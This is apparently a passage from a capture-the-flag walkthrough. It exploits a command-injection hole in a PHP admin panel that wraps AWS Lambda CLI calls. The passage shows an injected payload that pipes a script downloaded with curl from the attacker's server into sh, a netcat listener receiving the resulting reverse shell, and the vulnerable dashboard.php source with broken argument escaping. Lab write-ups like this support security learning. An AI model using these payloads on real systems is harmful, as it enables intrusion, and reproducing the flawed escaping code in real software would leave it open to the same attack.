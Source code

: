 
Now we can obtain a reverse shell via a reverse-shell as a service payload (such as https://reverse-shell.sh/) and hosting it at `index.html` from a quick Python webserver.
Payload:
```text
cmd=list-functions;curl 10.10.14.79|sh
```
Webserver:
```sh
$ python3 -m http.server 80
```

Reverse shell:
```sh
$ nc -nlvp 4444
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.229.92:51184.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
maximus_supervisor@emit:/var/www/html/maximus-admin-panel$
```

We can start enumerating the system, and looking at the php file of `dashboard.php` in the admin portal, we can identify the commands being executed to the AWS endpoint serving from `localhost:4566`.
```php
<?php
session_start();
if(isset($_SESSION['login'])){
    if($_SERVER['REQUEST_METHOD']=="POST"){
        $cmd = $_POST['cmd'];
	if($cmd){
		$list = ["create-function", "update-function-code", "list-functions"];
		$matchFound = false;
		foreach ($list as $item) {
		    if (strpos($cmd, $item) !== false) {
		        $matchFound = true;
		        break;
		    }
		}
		if($matchFound){
		        $command = 'aws --endpoint http://localhost:4566 lambda ' . escapeshellarg($cmd);
			$commands = explode("'",$command);
			$commands[1] = trim($commands[1],"'");
			$command = implode($commands);
			$command = str_replace('\\',"'",$command);
		        $output = array();
			if(strpos($command, "fileb") !== false){
				$pattern = '/fileb:\/\/([^ ]+)/i';
				$matches = [];
				preg_match_all($pattern, $command, $matches);
				if(file_exists("/var/www/html/maximus-admin-panel/uploads/" . $matches[1][0])){
					$command = str_replace("fileb://","fileb:///var/www/html/maximus-admin-panel/uploads/",$command);
					exec($command." 2>&1", $output);
				}
				else{
					$msg = $matches[1][0]." doesn't exist";
				}
			}
			else{
				exec($command." 2>&1", $output);
			}
		}
		else{
			$err = "Feature is disabled till satellite launch";
```